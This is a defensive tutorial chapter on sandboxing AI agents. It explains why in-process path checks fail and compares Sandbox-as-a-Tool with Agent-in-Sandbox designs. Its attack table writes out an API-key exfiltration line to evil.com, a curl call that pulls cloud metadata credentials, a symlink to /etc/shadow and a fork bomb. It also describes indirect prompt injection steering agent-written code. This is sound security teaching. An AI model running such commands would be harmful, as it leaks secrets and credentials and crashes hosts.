

# Chapter 01 — Why Agents Need Sandboxes & Core Topologies

> **Lecture 38 · Chapter 01 of 07** · Level: 🔴 Expert · Phase 8 — Multimodality, Full-Stack Apps & Agent Scaling
> **References:** [LangChain — How to Choose the Right Sandbox for Your Agent](https://www.langchain.com/blog/how-to-choose-the-right-sandbox-for-your-agent) · [OpenAI Agents SDK — Sandboxes Guide](https://developers.openai.com/api/docs/guides/agents/sandboxes)
> **Roadmap topics:** Why path jails fail for code execution · threat boundaries for untrusted LLM code · **Sandbox-as-a-Tool** vs. **Agent-in-Sandbox** topologies · secret-proxy vs. zero-hop trade-offs.

---

## 01.0 What this chapter is for

Every security failure in agentic coding or data-analysis apps — an agent reading `/etc/passwd`, leaking `OPENAI_API_KEY` via `curl`, filling up the host disk with a runaway loop, or hitting cloud metadata at `169.254.169.254` — traces back to one mistake: **running LLM-generated actions inside the same trust boundary as your application.**

In Lecture 10, we built `safePath`, an in-process filesystem jail for `readFile` and `writeFile`. That works when the model can only call *your* TypeScript functions. The moment you give an agent `bash`, `python3`, `git`, `npm test`, or a headless browser, an in-process string check collapses completely.

By the end of this chapter you should be able to:

1. Explain **three concrete attacks** that bypass an in-process `safePath` check the moment a shell or Python interpreter is exposed.
2. Draw and compare the two core agent sandbox topologies: **Sandbox-as-a-Tool** and **Agent-in-Sandbox**.
3. Decide which topology fits a **multi-tenant SaaS code interpreter** versus a **local/cloud autonomous SWE coding agent**.
4. Explain why **secrets must never enter the sandbox environment** regardless of topology.

---

## 01.1 The illusion: "I validated the path in TypeScript, so the agent is safe"

Suppose you expose a `runPython(script)` tool on your Node.js API server. Even if you validate file paths in TypeScript before launching Python, once `python3` starts executing model-generated code, it has access to the **operating system**, not your TypeScript guardrails:

| Attack vector | What the model-generated script runs | Why `safePath` cannot stop it |
| :--- | :--- | :--- |
| **1. Environment exfiltration** | `import os, urllib.request; urllib.request.urlopen("https://evil.com/?k=" + os.environ["OPENAI_API_KEY"])` | `os.environ` is inherited by child processes unless stripped; outbound HTTP bypasses file checks entirely. |
| **2. Cloud metadata SSRF** | `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/` | Reaches AWS/GCP/Azure IAM role credentials over link-local networking. |
| **3. Symlink & resource DoS** | `os.symlink("/etc/shadow", "workspace/leak.txt")` or `while True: os.fork()` | OS-level symlinks and fork bombs bypass lexical path checks and crash the host process. |

> [!IMPORTANT]
> **The rule to remember.** An LLM is an *untrusted code generator* — not because the model is malicious, but because **indirect prompt injection** in any web page, repo README, or CSV row can hijack what code the model writes next. A sandbox must assume the code inside it is **hostile**.

---

## 01.2 The Two Core Agent Sandbox Topologies

When you wire an LLM agent (the brain) to a sandbox (the hands), there are **two architectural patterns**. Choosing the wrong one makes secrets harder to protect or makes every tool call painfully slow.

### Side-by-Side Comparison

| Dimension | Topology 1: **Sandbox-as-a-Tool** | Topology 2: **Agent-in-Sandbox** |
| :--- | :--- | :--- |
| **Where the agent loop runs** | Outside the sandbox (your backend / Durable Object / API) | Inside the sandbox alongside the repo and CLI tools |
| **How tools execute** | Network RPC calls (`sandbox.exec()`, `files.write()`) | Local syscalls (`bash`, `git`, `rg`, `npm test`) at <1 ms |
| **Secret isolation** | **Strongest by default** — keys never leave your orchestrator | Requires a **Host Credential Proxy** outside the VM |
| **Network overhead per step** | ~20–100 ms per tool invocation | Zero-hop local execution |
| **Failure / crash blast radius** | Sandbox dies; orchestrator checkpoints state and retries | Must stream/checkpoint state out before VM termination |
| **Best suited for** | Multi-tenant SaaS data analysis, Code Mode, untrusted user code | Autonomous SWE agents (PR bots, repo-wide refactors, test loops) |

> [!TIP]
> **How to decide in 10 seconds:** If the agent runs **short, untrusted scripts** on behalf of many SaaS users, use **Sandbox-as-a-Tool**. If the agent needs a **full developer workstation** (`git`, `rg`, test suites, `docker compose`) for 20+ sequential turns on one repo, use **Agent-in-Sandbox** behind a Host Credential Proxy.

---

## 01.3 Common Mistakes & Key Takeaways

| # | Common Mistake | Why It Hurts | What To Do Instead |
| :---: | :--- | :--- | :--- |
| 1 | Relying on `safePath` when `bash` or `python3` is enabled | Child processes ignore JS path checks and read `env` / sockets | Move execution into a V8 isolate, `gVisor`, or MicroVM |
| 2 | Passing `OPENAI_API_KEY` into the sandbox `env` | Any prompt-injected `printenv` leaks your production billing key | Keep keys in the orchestrator (**Sandbox-as-a-Tool**) or a **Host Proxy** (**Agent-in-Sandbox**) |
| 3 | Putting a coding harness across a high-latency RPC bridge for 50 turns | 50 turns × 100 ms + serialization overhead degrades UX | Co-locate the coding harness inside the VM (**Agent-in-Sandbox**) |

### Key Takeaways
1. **Treat all LLM-generated code as untrusted** — indirect prompt injection turns any agent into an RCE vector.
2. **Sandbox-as-a-Tool** keeps your orchestrator and secrets completely outside the blast radius.
3. **Agent-in-Sandbox** gives coding agents 0-hop filesystem/CLI speed, provided secrets stay behind an external proxy.

---

**Next:** [Chapter 02 — Isolation Layers: V8 Isolates, Containers, gVisor & MicroVMs](./02_Isolation_Layers_V8_Containers_gVisor_MicroVMs.md)
